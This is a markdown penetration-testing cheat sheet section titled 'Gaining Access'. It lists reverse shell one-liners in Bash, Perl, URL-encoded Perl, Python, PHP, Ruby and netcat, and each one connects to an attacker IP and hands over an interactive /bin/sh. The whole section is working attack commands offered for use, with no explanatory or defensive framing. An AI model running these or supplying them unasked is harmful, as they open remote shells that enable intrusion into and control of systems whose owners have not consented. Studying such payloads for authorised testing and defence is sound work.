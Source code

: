 ## Gaining Access <a id="gaining-access"></a>

### Reverse Shell One-Liners <a id="reverse-shell-one-liners"></a>

#### Bash <a id="bash"></a>

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

#### Perl <a id="perl"></a>

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### URL-Encoded Perl: Linux <a id="url-encoded-perl-linux"></a>

```bash
echo%20%27use%20Socket%3B%24i%3D%2210.11.0.245%22%3B%24p%3D443%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2fbin%2fsh%20-i%22%29%3B%7D%3B%27%20%3E%20%2ftmp%2fpew%20%26%26%20%2fusr%2fbin%2fperl%20%2ftmp%2fpew
```

#### Python <a id="python"></a>

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### PHP <a id="php"></a>

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Ruby <a id="ruby"></a>

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### Netcat without -e \#1 <a id="netcat-without-e-1"></a>

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 1234 > /tmp/f
```

